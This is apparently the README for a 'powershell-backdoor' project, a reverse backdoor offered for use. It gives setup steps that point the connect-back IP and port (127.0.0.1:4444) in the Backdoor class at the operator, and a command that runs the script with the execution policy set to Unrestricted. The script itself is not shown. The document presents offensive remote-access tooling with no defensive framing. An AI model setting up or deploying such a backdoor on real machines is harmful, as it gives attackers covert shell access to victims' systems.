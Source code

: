 # powershell-backdoor
A simple Powershell Reverse Backdoor


# Setup
Find the class Backdoor, and change the following lines 
```powershell
class Backdoor {
  # Change this to the correct ip/port
  [string]$ipAddress = "127.0.0.1"
  [int]$port = 4444
```

# Execution
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```
